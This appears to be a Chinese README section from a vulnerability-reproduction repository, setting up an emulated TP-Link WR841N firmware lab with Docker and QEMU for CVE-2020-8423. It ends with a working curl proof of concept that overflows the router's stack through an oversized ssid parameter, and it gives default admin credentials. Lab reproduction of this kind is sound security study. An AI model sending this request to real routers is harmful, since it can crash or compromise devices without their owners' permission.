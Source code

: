 
---

## 部分漏洞复现

### TP-Link WR841N 栈溢出漏洞（CVE-2020-8423）


本实验依赖的镜像有：`ubuntu1604 -> qemu-system:mips`

- 拉取镜像

```bash
# 拉取 ubuntu1604
docker pull k4l1xx/ubuntu1604:latest
# 拉取 qemu-system:mips
docker pull k4l1xx/qemu-system:mips
# 拉取binwalk
docker pull k4l1xx/binwalk:latest
```

- 构建容器

```bash
# 进入当前漏洞环境目录
cd /TP-Link/CVE-2020-8423
# 使用 binwalk 解压固件
docker run --rm -v $PWD/firmware/:/root/firmware k4l1xx/binwalk -Mer "/root/firmware/wr841nv10_wr841ndv10_en_3_16_9_up_boot(150310).bin"
```

- 构建并启动漏洞环境：

**注意**：docker-compose-system.yml 文件的第一步需要是 **FROM k4l1xx/qemu-system:mips** 。
如果clone到本地的仓库是 firmianay 的原版仓库，需要修改 **FROM firmianay/qemu-system:mips** 为 **FROM k4l1xx/qemu-system:mips** ，因为原作者在dockerhub中已经将该镜像删除，直接拉取会失败。

```bash
# 初始化环境
$ sudo sh ./init_env.sh mips

# 构建镜像
$ sudo docker-compose -f docker-compose-system.yml build

# 启动容器
$ sudo docker-compose -f docker-compose-system.yml up


# 以192.168.2.1作为跳板，将192.168.2.2模拟的固件的80端口映射出来，从而能够在本地直接访问，并进行抓包
$ ssh -L 127.0.0.1:8101:192.168.2.2:80 root@127.0.0.1 -p 1234

# 或者使用sock5代理
$ ssh -D 2345 root@127.0.0.1 -p 1234
# 配置浏览器代理，即可登陆 Web 后台 192.168.2.2 admin/admin

```
exp:
在192.168.2.1中输入：
```
$ curl -H 'Cookie: Authorization=Basic%20YWRtaW46MjEyMzJmMjk3YTU3YTVhNzQzODk0YTBlNGE4MDFmYzM%3D' 'http://192.168.2.2/ITOKVBJAOYUCAMPC/userRpm/popupSiteSurveyRpm_AP.htm?mode=1000&curRegion=1000&chanWidth=100&channel=1000&ssid='$(python -c 'print("/%0A"*0x55 + "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac")')''
```

---
